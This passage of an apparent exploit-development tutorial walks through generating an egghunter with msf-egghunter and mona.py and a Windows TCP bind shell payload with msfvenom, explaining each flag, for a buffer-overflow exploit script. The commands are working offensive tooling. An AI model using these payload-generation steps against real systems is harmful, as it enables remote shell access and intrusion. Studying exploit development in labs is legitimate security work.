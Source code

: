          *  This was generated using `msf-egghunter -p windows -a x86 -f python -e w00t`
            *  `-p windows`: Specifies the windows platform 
            *  `-a x86`: Specifies a x86 target architecture
            *  `-f python`: format output for a python script 
            *  `-e w00t`: Egg to search for.
   
   * We can use Immunity Debugger and ```mona.py``` to generate a egghunter that works
     1. Open immunity debugger and use the command `!mona egg -t w00t -wow64 -winver 10`
        * `!mona`: Use the mona tool
        * `egg`: Use the EggHunter generation option
        * `-wow64`: Generate for a 64 bit machine
        * `-winver 10`: Generate for a windows 10 machine 
     2. Copy the output shown below to [exploit5.py](./SourceCode/exploit5.py), this can be found in the file `egghunter.txt` file in the folder `C:\Users\<User>\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`, where `<User>` is replaced by your username. 

		<img src="Images/I28.png" width=600> 

3. We will also need a bind shell, this is a program that listens for connections on the target machine and provides a shell to anyone that makes a tcp connection. We can generate the shell with the following command. 
	```
	$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
	```
      * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
      * `-p windows/shell_bind_tcp`: Specify we are using the tcp bind shell payload for windows 
      * `RPORT=4444`: Specify the Receiving (Remote) port is 4444 
      * `EXITFUNC=thread`: Exit process, this is running as a thread.
      * `-f python`: Format the output for use in a python program 
      * `-v SHELL`: Specify SHELL variable
      * `-b '\x00'`: Set bad characters
